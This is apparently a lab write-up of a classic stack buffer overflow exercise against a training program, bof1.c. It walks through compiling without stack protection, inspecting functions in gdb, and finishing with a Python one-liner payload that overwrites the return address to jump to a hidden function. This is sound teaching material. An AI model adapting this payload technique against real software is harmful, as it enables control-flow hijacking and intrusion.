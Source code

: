 # Understand bof1.c 
In this attack, we will try to replace the return address with another function's return address (redirect control) by using python!
## stackframe

## Vulnerbility
At "gets(array)"; function, we see that hackers can exploit the stackframe by adding more bytes in python in order to redirect the return address! 
# Start attacking bof1.c 
## Compiling the file without stack restriction
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`  
![image](https://github.com/user-attachments/assets/21d80169-9f8e-4b30-9a74-2a1f724fe91e)
## Run gdb for futher examination
`gdb bof1.out`  
![image](https://github.com/user-attachments/assets/fd0f1874-33e5-462a-b728-5585a58f25f2)
## Try to see each func in machine code!
With **vuln**: `disas vuln`  
![image](https://github.com/user-attachments/assets/5cebaf7c-ea46-4f84-8ca1-5cadb035417b)  
With **secretFunc**: `disas secretFunc`  
![image](https://github.com/user-attachments/assets/9309975e-fe08-4948-b08a-ff2b48181bd6)  
=> We see that the address of  **secretFunc** is `0x0804846b`. So now, we are going to replace the **vuln's return address** with the **secretFunc's return address**.
## Calculate the total bytes to attack
As can be seen from the stackframe, we need in sum of 204 bytes of a and the last will be the return address of **secretFunc**  
Now we use `q` to exit and type `echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123` to see the result!  
![image](https://github.com/user-attachments/assets/e7537703-ab20-4977-96fb-a0ee086fc7ec)

